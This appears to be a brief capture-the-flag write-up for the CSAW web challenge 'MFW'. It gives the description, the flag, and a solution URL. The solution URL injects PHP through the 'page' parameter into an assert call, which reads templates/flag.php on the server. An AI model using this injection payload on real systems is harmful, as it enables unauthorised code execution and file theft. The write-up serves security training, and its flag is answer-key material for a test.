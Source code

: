 # MFW
## Author

## Points
125
## Category
Web
## Description
Hey, I made my first website today. It's pretty cool and web7.9.
## Flag
`flag{3vald_@ss3rt_1s_best_a$$ert`
## Solution
`http://web.chal.csaw.io:8000/index.php?page=flag%27)||var_dump(file_get_contents(%27templates/flag.php%27));//`

